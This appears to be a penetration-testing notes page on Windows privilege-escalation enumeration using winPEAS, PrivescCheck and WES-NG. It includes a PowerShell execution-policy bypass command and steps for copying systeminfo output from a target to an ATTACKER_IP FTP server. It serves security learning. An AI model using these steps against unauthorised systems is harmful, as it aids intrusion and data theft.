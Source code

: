 winpeas.exe > outputfile.txt

### [**PrivescCheck**](https://github.com/itm4n/PrivescCheck) <a href="#z2d4034tsbx" id="z2d4034tsbx"></a>

* PowerShell script that searches common privilege escalation on target.
  * Does not require execution of binary file on target.
* Need to bypass execution policy restrictions on target to run PrivescCheck.

Set-ExecutionPolicy Bypass -Scope process -Force

.\PrivescCheck.ps1

Invoke-PrivescCheck

### [**WES-NG: Windows Exploit Suggester - Next Generation**](https://github.com/bitsadmin/wesng) <a href="#id-5fd2orrvmtn1" id="id-5fd2orrvmtn1"></a>

* Python script.
* Runs on attacking machine to avoid making unnecessary noise on target that can attract attention.
* Install WES-NG.

git clone https://github.com/bitsadmin/wesng --depth 1

* Obtain latest database of vulnerabilities.
  * Database used to check for missing patches that can result in vulnerabilities allowing elevation of privileges on target.

wes.py --update

* Use Windows systeminfo.exe on target to check for missing patches.
* Redirect systeminfo output to file.

systeminfo > systeminfo.txt

* Copy systeminfo.txt to attacker machine.

**Set up VSFTPD to transfer file from target.**

1. sudo apt update to update Kali repositories.
2. sudo apt install vsftpd to install package.
3. sudo systemctl start vsftpd.service to load service.
4. sudo systemctl status vsftpd.service to verify it is running.
5. sudo vim /etc/vsftp.conf to open service's config file.
6. i to enter insert mode.
7. Delete comment hash from "write\_enable=YES" to enable file upload option.
8. Esc to exit insert mode.
9. :wq to save and close config file.
10. sudo systemctl restart vsftpd.service to restart service.
11. sudo systemctl status vsftpd.service to verify service is running.
12. sudo ifconfig to identify IP address of FTP server (10.10.58.23).
13. Go to Windows target.
14. Open File Explorer.
15. Type \`ftp://ATTACKER\_IP/ in navigation bar.
16. Insert Kali credentials.
17. Kali files and folders visible in Windows File Explorer.
